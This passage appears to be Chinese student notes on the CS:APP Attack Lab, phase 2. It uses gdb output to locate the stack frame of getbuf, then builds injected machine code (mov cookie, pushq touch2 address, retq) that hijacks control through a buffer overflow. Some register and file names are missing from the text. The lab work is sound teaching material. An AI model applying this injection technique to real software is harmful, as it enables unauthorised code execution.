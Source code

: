 自然想到在缓冲区注入代码 \verb|mov $0x59b997fa,%rdi|, 通过 \verb|getbuf| 末尾的 \verb|ret| 指令跳转执行. 为此, 只需知道字符串的起始地址, 即 \verb|getbuf| 栈帧的顶部地址. 在 \verb|gdb| 中查看
\begin{code}{text}
(gdb) break *0x4017b9
Breakpoint 1 at 0x4017b9: file buf.c, line 16.
(gdb) run -q
Starting program: /home/hasined/Repositories/Computer-System/labs/attack/target1/ctarget -q
Cookie: 0x59b997fa
Type string:

Breakpoint 1, 0x00000000004017b9 in getbuf () at buf.c:16
16      buf.c: No such file or directory.
(gdb) info frame
Stack level 0, frame at 0x5561dca8:
    rip = 0x4017b9 in getbuf (buf.c:16); saved rip = 0x401976
    called by frame at 0x5561dcb8
    source language c.
    Arglist at 0x5561dc70, args:
    Locals at 0x5561dc70, Previous frame's sp is 0x5561dca8
    Saved registers:
    rip at 0x5561dca0
(gdb) info registers rsp
rsp            0x5561dc78          0x5561dc78
\end{code}
可见 \verb|rsp| 为 \verb|0x5561dc78|, 应当将 \verb|getbuf| 的返回地址覆盖为该值.

接下来考虑如何进一步调用 \verb|touch2| 函数. 根据实验材料的提示,  \verb|jmp| 和 \verb|call| 指令的编码较为困难, 故仍应使用 \verb|ret| 指令完成跳转. 只需在跳转前将 \verb|rsp| 指向的值设置为 \verb|touch2| 的入口地址. 在 \verb|gdb| 中查看
可见 \verb|touch2| 的地址为 \verb|0x4017ec|. 

函数 \verb|getbuf| 返回后, \verb|rsp| 变为 \verb|0x5561dca8|, 位于 \verb|test| 函数的栈帧顶部. 我们可以通过注入代码, 将 \verb|0x5561dca8| 处的内容写为 \verb|0x4017ec|. 更简便的办法是通过 \verb|pushq| 指令将 \verb|0x4017ec| 压栈, 等效于修改 \verb|0x5561dca0| 处内容并使 \verb|rsp| 减去8. 

综上所述, 所需注入的三行指令为
\begin{code}{text}
    mov      $0x59b997fa,%
    pushq    $0x4017ec
    retq
\end{code}
存于  中. 用 \verb|gcc| 汇编后, 再用 \verb|objdump| 导出, 得到小端格式的机器码
\begin{code}{text}
$ gcc -c phase2.s
$ objdump -d phase2.o

phase2.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
    0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%
    7:   68 ec 17 40 00          pushq  $0x4017ec
    c:   c3                      retq
\end{code}
完整的16进制利用字符串存于  中. 

